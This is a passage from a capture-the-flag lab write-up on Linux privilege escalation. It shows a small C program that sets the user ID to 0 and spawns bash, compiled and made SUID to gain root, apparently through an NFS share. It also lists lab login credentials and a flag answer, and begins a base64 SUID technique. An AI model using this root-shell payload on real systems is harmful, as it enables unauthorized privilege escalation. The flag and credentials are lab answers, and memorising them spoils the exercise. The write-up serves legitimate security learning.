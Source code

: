 The room gives us an executable we can run on the machine. I made a file nfs.c with the contents

```
int main()
{ setgid(0);
 setuid(0);
 system("/bin/bash");
 return 0;
}
```

Now we can compile it with `gcc nfs.c -o nfs -w`. Change the permissions of the file, `chmod +s nfs`

We can now execute the file on the target machine from the tmp directory, `cd /tmp && ./nfs` and obtain root. We can then obtain our flag with `cat /home/matt/flag7.txt`.

## Task 12

* User: leonard
* Password: Penny123

For this, this is  utilizing how a lot of the tools and methods we have used in the previous tasks. We can SSH into the machine and begin.&#x20;

We can use tools such as [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) that was discussed in Task4 but for now we'll go over the manual ways that were covered.

### Question 1: What is the content of the flag1.txt file?

`THM-42828719920544` -&#x20;

Started this by looking at the SUID Permissions.

![](<../../../.gitbook/assets/image (81).png>)

We can see that base64 can be used. So as in Task 7, we can follow the same suit.
